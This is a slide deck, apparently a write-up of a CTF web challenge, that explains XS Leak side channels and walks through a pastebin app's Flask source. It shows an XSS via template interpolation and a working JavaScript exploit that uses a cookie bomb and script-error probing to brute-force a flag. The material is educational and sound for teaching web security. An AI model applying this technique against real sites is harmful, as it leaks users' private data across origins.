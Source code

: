 ```yaml
---
title: XS Leak - CTF Challenge
tags: XS Leak, XSS, CTF
description: View the slide with "Slide Mode".
---
```


# XS Leak

- What is XS Leak? 
- What is CSRF?

---

## XS Leak

- Side channel attacks
- Leak user information

---

## CSRF Attack

- Affects the data

---

XS Leak Example

- evil.com
- bank.com
- evil.com attempts load bank.com/my_receipt?q=groceries as a script
- Fail => 404 Status Code
- Success => 200 Status Code 

---

### XS Leak

```javascript
function probeError(url) {
  let script = document.createElement('script');
  script.src = url;
  script.onload = () => console.log('Onload event triggered');
  script.onerror = () => console.log('Error event triggered');
  document.head.appendChild(script);
}
```


---

# Challenge

---

##### Preview Paste

```javascript
<!doctype html>
<html>
    <head>
        <link rel="stylesheet" href="/static/style.css" />
    </head>
    <body>
        <div class="container tall">
            <iframe src="https://sandbox.pastebin-3.mc.ax?id=f809ec3a06e5b7a114b4ba7a42926a185351774feee3ac95ae67228ccf2cea68"></iframe>
        </div>
    </body>
</html>
```
- Different domain `https://sandbox.paste...`

---

### Rendering 

```javascript
        <script src="/static/purify.min.js"></script>
        <script>
            (async() => {
                await new Promise(
                    (resolve) => window.addEventListener('load', resolve)
                );
                document.body.innerHTML = DOMPurify.sanitize(
                    `"tested"`.slice(1, -1)
                );
            })()
        </script>        
```

- Is XSS possible?

---

- `${alert(1)}`
- String interpolation

--- 

## Source Code

```python
def execute(query, params=())
def check_login(username, password)
def create_account(username, password)
def create_paste(paste, username)
def get_pastes(username)
def get_paste(paste_id)
def index()
def login()
def register()
def home()
def logout()
def init()
```

---

```python
@app.route('/create_paste', methods=['POST'])
def create():
    if 'username' not in session:
        return redirect('/')
    paste_id = create_paste(
        request.form['paste'],
        session['username']
    )
    return redirect(f'/view?id={paste_id}')
```

---

```python
@app.route('/search')
def search():
    if 'username' not in session:
        return redirect('/')
        
    if 'query' not in request.args:
        flash('Please provide a query!')
        return redirect('/home')
        
    query = str(request.args.get('query'))
    results = (
        paste for paste in get_pastes(session['username'])
        if query in get_paste(paste)
    )
    
    try:
        flash(f'Result found: {next(results)}.')
    except StopIteration:
        flash('No results found.')
    return redirect('/home')
```

---

## Flask Flashing

- Record Message at end of request
- Access it in next view being rendered.

+ What does this require?

---

## Excerpt from Flask Documentation

- Note that browsers and sometimes web servers enforce a limit on cookie sizes.
- This means that flashing messages that are too large for session cookies causes message flashing to fail silently.

---

# Exploit

1. Set cookie on sub-domain - large enough
2. Bruteforce flag char by char
3. Right guess => Big cookie from main domain
4. Crashes application - Causes error

```
Bad Request

Error parsing headers: 'limit request headers fields size'
```

---

```javascript
function set() {
    document.cookie = `a=${'a'.repeat(4096-90)}; domain=.pastebin-3.mc.ax`
    document.cookie = `b=${'a'.repeat(4096-90)}; domain=.pastebin-3.mc.ax`
}

```

---

```javascript
(async () => {
    let prefix = "flag{";
    let base = "https://pastebin-3.mc.ax"
    set();
    while (!prefix.endsWith('}')) {
        for (let i = 0; i < alphabet.length; i++) {
            let attempt = prefix + alphabet[i];

            let subwindow = window.open(`${base}/search?query=` + encodeURIComponent(attempt));
            await wait(500);
            subwindow.close();

            if (await probeError(`${base}/home`)) {
                unset();
                prefix = attempt;
                break;
            }
        }
    }
})();

```

